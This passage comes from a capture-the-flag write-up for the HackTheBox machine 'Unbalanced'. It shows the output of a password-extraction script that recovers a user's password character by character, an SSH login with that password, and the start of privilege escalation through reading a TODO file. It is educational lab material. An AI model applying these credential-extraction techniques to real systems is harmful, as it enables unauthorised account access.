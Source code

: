 Since it was a long shot, to my surprise it worked and gave the password of the user `bryan`.

```bash
root@kali:~/CTF/HTB/Boxes/Unbalanced# python3 pass_grabber.py 
>  i
>  ir
>  ire
>  irea
>  ireal
>  ireall
>  ireally
>  ireallyl
>  ireallyl0
>  ireallyl0v
>  ireallyl0ve
>  ireallyl0veb
>  ireallyl0vebu
>  ireallyl0vebub
>  ireallyl0vebubb
>  ireallyl0vebubbl
>  ireallyl0vebubble
>  ireallyl0vebubbleg
>  ireallyl0vebubblegu
>  ireallyl0vebubblegum
>  ireallyl0vebubblegum!
>  ireallyl0vebubblegum!!
>  ireallyl0vebubblegum!!!
```

The recovered password was `ireallyl0vebubblegum!!!`, now since we had a password and a user I can now try to login on ssh service.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-unbalanced/Untitled%2013.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-unbalanced/Untitled%2013.png)

## Privilege Escalation

After logging in via ssh, we can now read the `user.txt`. We also had a uncommon file named `TODO` which looked like the journal entry for the service the author has been deploying.

```python
bryan@unbalanced:~$ cat TODO 
############
# Intranet #
############
* Install new intranet-host3 docker [DONE]
* Rewrite the intranet-host3 code to fix Xpath vulnerability [DONE]
* Test intranet-host3 [DONE]
* Add intranet-host3 to load balancer [DONE]
* Take down intranet-host1 and intranet-host2 from load balancer (set as quiescent, weight zero) [DONE]
* Fix intranet-host2 [DONE]
* Re-add intranet-host2 to load balancer (set default weight) [DONE]
- Fix intranet-host1 [TODO]
- Re-add intranet-host1 to load balancer (set default weight) [TODO]
```